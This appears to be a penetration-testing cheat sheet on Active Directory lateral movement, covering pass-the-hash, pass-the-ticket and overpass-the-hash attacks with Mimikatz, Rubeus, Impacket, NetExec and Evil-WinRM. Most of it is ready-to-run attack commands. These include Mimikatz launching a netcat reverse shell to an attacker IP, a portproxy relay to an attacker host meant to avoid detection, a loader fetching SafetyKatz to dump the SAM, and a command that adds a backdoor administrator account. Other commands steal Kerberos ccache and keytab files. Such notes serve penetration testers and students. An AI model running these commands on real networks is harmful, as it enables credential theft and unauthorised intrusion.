

# Lateral Movement

### NTLM Authentication

* [mimikatz](https://github.com/ParrotSec/mimikatz), [SafetyKatz](https://github.com/GhostPack/SafetyKatz)
* `mimikatz  # ::help`&#x20;
* `mimikatz  # <module>::`
* `$null | winrs -r:<computer-name> "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=<attacker-IP>"`  (avoid detection)
* `$null | winrs -r:<computer-name> "cmd /c C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe lsadump::sam exit"`  (loader can be transferred using [payload-transfer](../../exploitation/payload-transfer/ "mention"))
* **Pass-the-Hash**
  * UAC limits Pass-the-Hash for local accounts
  * _**MimiKatz**_
    * `mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash> /run:"cmd.exe" exit`
    * `mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash> /run:"C:\tools\nc64.exe -e cmd.exe AtackIP Port"` ("." if using a local account)
    * [_**Invoke-TheHash**_](https://github.com/Kevin-Robertson/Invoke-TheHash)
      * Collection of PowerShell functions for performing Pass the Hash attacks with WMI and SMB
      * <pre class="language-powershell" data-line-numbers><code class="lang-powershell">Import-Module .\Invoke-TheHash.psd1
        Invoke-SMBExec -Target &#x3C;IP> -Domain &#x3C;domain> -Username &#x3C;user> -Hash &#x3C;NTHash> -Command "net user mark Password123 /add &#x26;&#x26; net localgroup administrators mark /add" -Verbose
        Invoke-WMIExec -Target &#x3C;IP> -Domain &#x3C;domain> -Username &#x3C;user> -Hash &#x3C;NTHash> -Command "put-reverse-shell-cmd" -Verbose
        </code></pre>
    * [_**Impacket**_](https://github.com/SecureAuthCorp/impacket)
      * `impacket-psexec administrator@<IP> -hashes :<NTHash>`&#x20;
      * `impacket-wmiexec administrator@<IP> -hashes :<NTHash>`
      * `impacket-atexec administrator@<IP> -hashes :<NTHash>`
      * `impacket-smbexec administrator@<IP> -hashes :<NTHash>`&#x20;
    * [_**NetExec**_](https://github.com/Pennyw0rth/NetExec)
      * `nxc smb <IP> -u <user> -d <domain> -H <NTHash>`  (add --local-auth without domain)
      * `nxc smb <IP> -u <user> -d <domain> -H <NTHash> -x whoami`&#x20;
    * [_**Evil-WinRM**_](https://github.com/Hackplayers/evil-winrm)
      * `evil-winrm -i IP -u <username> -H NTLM_Hash`&#x20;
    * _**RDP**_
      * `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`  (Enable Restricted Admin Mode)
      * `xfreerdp /v:IP /u:Domain\User /pth:NTLM_Hash`&#x20;

### Kerberos Authentication


1.  The user sends his username and a timestamp encrypted using a key derived from his password to the **Key Distribution Center (KDC)**, a service usually installed on the Domain Controller in charge of creating Kerberos tickets on the network.

    The KDC will create and send back a **Ticket Granting Ticket (TGT)**, allowing the user to request tickets to access specific services without passing their credentials to the services themselves. Along with the TGT, a **Session Key** is given to the user, which they will need to generate the requests that follow.

    Notice the TGT is encrypted using the **krbtgt** account's password hash, so the user can't access its contents. It is important to know that the encrypted TGT includes a copy of the Session Key as part of its contents, and the KDC has no need to store the Session Key as it can recover a copy by decrypting the TGT if needed.
2.  When users want to connect to a service on the network like a share, website or database, they will use their TGT to ask the KDC for a Ticket Granting Service (TGS). TGS are tickets that allow connection only to the specific service for which they were created. To request a TGS, the user will send his username and a timestamp encrypted using the Session Key, along with the TGT and a Service Principal Name (SPN), which indicates the service and server name we intend to access.

    As a result, the KDC will send us a TGS and a Service Session Key, which we will need to authenticate to the service we want to access. The TGS is encrypted using the Service Owner Hash. The Service Owner is the user or machine account under which the service runs. The TGS contains a copy of the Service Session Key on its encrypted contents so that the Service Owner can access it by decrypting the TGS.
3. The TGS can then be sent to the desired service to authenticate and establish a connection. The service will use its configured account's password hash to decrypt the TGS and validate the Service Session Key.

#### Kerberos on Linux 

* Linux machines store Kerberos tickets as [ccache files](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html) in the `/tmp` directory
* Location of theKerberos ticket is stored in the environment variable `KRB5CCNAME`
* `keytab` is a file containing pairs of Kerberos principals and encrypted keys
* Keytab file located by default at `/etc/krb5.keytab`
* &#x20;[Identifying Linux and Active Directory integration](https://web.archive.org/web/20210624040251/https://www.2daygeek.com/how-to-identify-that-the-linux-server-is-integrated-with-active-directory-ad/) - [`realm`](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/7/html/windows_integration_guide/cmd-realmd) `list`  or [sssd](https://sssd.io/) or [winbind](https://www.samba.org/samba/docs/current/man-html/winbindd.8.html) -> `ps -ef | grep -i "winbind|sssd"`&#x20;


* TGTs can be used to request access to any services the user is allowed to access.
* TGSs are only good for a specific service.
* **Pass-the-Ticket**
  * [#kerberos-tickets](credential-harvesting/#kerberos-tickets "mention")

<strong>Windows</strong>

* _**Mimikatz**_ (Kerberos tickets and session keys from LSASS memory)
  * `mimikatz # privilege::debug`
  * `mimikatz # kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-<domain>.kirbi`&#x20;
  * `klist` check if the tickets were correctly injected
* _**Rubeus**_
  * `Rubeus.exe asktgt /domain:<domain> /user:<username> /aes256:<value> /ptt`
  * `Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-user@krbtgt-domain.kirbi`
  * `Rubeus.exe ptt /ticket:<base64-value>`
  * _**Convert .kirbi to Base64 Format**_
    * `[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-user@krbtgt-domain.kirbi"))`&#x20;
  * [_**PowerShell Remoting**_](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2)
    * [powershell-remoting.md](../../exploitation/lateral-movement/powershell-remoting.md "mention")

<strong>Linux</strong>

* _**Abusing KeyTab ccache**_&#x20;
  * `ls -la /tmp`  (Looking for ccache files)
  * `id <new-target-user@domain>`  (Identify group membership)
  * **Importing the ccache file**
    * `klist`
    * `cp /tmp/<ccache-of-new-target> .`
    * `export KRB5CCNAME=/root/<ccache-of-new-target>`
    * `klist`&#x20;
* `impacket-wmiexec <target> -k`
* `evil-winrm -i <target> -r <domain>`  (requires some prerequiste-check online)
* [`impacket-ticketConverter`](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py) `ccache-file user.kirbi`  (To use in Windows)

* _**OverPass-the-hash / Pass-the-Key**_
  * [#kerberos-encryption-keys](credential-harvesting/#kerberos-encryption-keys "mention")

<strong>Windows</strong>

* _Note: Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't._
* _**Mimikatz**_
  * `mimikatz # sekurlsa::pth /user:username /domain<domain /rc4:<value> /run:"c:\tools\nc64.exe -e cmd.exe AtackIP Port"`  RC4
    * _RC4, the key will be equal to the NTLM hash of a user. Known as Overpass-the-Hash (OPtH)._
  * `mimikatz # sekurlsa::pth /user:username /domain:<domain /aes128:<value> /run:"c:\tools\nc64.exe -e cmd.exe AtackIP Port"`  AES128
  * `mimikatz # sekurlsa::pth /user:username /domain:<domain /aes256:<value> /run:"c:\tools\nc64.exe -e cmd.exe AtackIP Port"`  AES256
  * _/rc4, /aes128, /aes256, or /des_
  * _**Remote Extraction**_
    * `$null | winrs -r:<computer-name> "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=<attacker-IP>"`  (avoid detection)
    * `$null | winrs -r:<computer-name> "cmd /c C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe lsadump::sam exit"` (loader can be transferred using [payload-transfer](../../exploitation/payload-transfer/ "mention"))
* _**Rubeus**_
  * `Rubeus.exe asktgt /domain:<domain> /user:<username> /aes256:<value> /nowrap`
  * `Loader.exe -path C:\Rubeus.exe -args asktgt /user:<username> /aes256:<value> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt`
* `winrs.exe -r:<another-target-machine.<domain> cmd`  Run within the terminal after getting reverse shell of compromised user.

<strong>Linux</strong>

* _**Abusing KeyTab files&#x20;**__**(R/W access)**_
  * `klist -k -t <keytab-file>`  (to know which user it was created for)
  * **Impersonating a user**
    * `klist`
    * `kinit impersonating-user@domain -k -t <keytab-file>` (case-sensitive all values given  should be accurate)
    * `klist`&#x20;
* `impacket-wmiexec <target> -k`
* `evil-winrm -i <target> -r <domain>`  (requires some prerequiste-check online)
* [`impacket-ticketConverter`](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py) `ccache-file user.kirbi`  (To use in Windows)

### [lateral-movement](../../exploitation/lateral-movement/ "mention")

### [ad-certificate-services](../ad-certificate-services/ "mention")
